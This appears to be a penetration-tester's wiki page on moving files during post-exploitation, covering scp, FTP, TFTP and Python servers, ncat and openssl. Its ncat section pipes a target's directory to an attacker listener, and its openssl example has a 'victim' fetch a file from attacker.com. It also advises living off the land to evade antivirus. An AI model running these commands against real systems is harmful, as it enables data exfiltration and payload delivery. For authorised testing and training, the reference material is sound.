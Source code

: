 # File Transfers

Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint filesystems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Adminstrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells-Listing]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] or [[Linux-File-Transfers]] follow the link the remainer of this article will include hosting methods

Sometime you do not have `curl` and `wget` or want to use either. 

## SCP

```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


## PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

## Python

Unencrypted File transfer
```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

Encrypted File transfer 
```bash
# Create SSL certificate
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
Run a python HTTPS server
```python
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```


## TFTP Upload Server for Data Exfiltration

Install, contain with a directory  and run a TFTP server.
```bash
apt install atftp
mkdir /tftp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Openssl

Openssl is widely used for certificate and key handling 
```bash
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```
[From GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)



## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)

